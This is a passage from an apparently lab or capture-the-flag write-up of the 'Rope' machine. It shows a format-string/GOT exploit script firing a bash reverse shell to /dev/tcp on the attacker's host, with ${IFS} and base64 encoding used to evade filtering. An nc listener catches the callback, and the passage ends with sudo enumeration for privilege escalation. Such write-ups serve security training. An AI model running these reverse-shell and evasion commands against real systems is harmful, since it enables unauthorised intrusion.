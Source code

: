 

    root@kali# ./rope_shell.py 10.10.10.148 "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"                                                                                        
    [+] Main base address:   0x565be000
    [+] libc base address:   0xf7d0d000
    [+] GOT table for puts:  0x565c3048
    [+] system address:      0xf7d49d10
    [+] system lower:            0x9d10
    [+] system upper:        0xf7d4
    [*] Command: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
    [*] Encoded command: echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxJw==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/sh
    [*] Sending exploit



And get a callback:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.148.
    Ncat: Connection from 10.10.10.148:60820.
    bash: cannot set terminal process group (1103): Inappropriate ioctl for device
    bash: no job control in this shell
    bash: /root/.bashrc: Permission denied
    john@rope:/opt/www$ id
    uid=1001(john) gid=1001(john) groups=1001(john)



## Shell as r4j

### Enumeration

Before uploading any recon scripts, in my basic checks I always check
`sudo`, and here, there's something interesting. I can run
`/usr/bin/readlogs` as r4j without password:



    john@rope:/$ sudo -l
    Matching Defaults entries for john on rope:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on rope:
        (r4j) NOPASSWD: /usr/bin/readlogs



The file is a 64-bit executable:



    john@rope:/$ file /usr/bin/readlogs 
    /usr/bin/readlogs: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=67bdf14148530fcc5c26260c3450077442e89f66, not stripped
